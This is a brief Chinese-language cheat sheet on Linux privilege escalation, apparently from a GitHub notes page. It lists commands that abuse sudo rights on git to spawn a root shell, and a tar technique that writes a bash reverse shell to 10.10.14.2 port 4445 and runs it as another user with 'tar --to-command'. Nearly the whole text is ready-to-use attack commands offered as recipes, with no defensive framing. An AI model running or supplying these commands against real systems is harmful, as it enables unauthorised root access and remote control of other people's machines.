 # Linux提权

### git提权

```
sudo git -p help config
# 末行模式下书写
!/bin/sh
```

### tar提权

```
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.2/4445 0>&1' > xxx.sh
tar -cvf xxx.tar xxx.sh
sudo  -u onuma tar -xvf xxx.tar --to-command /bin/bash
```





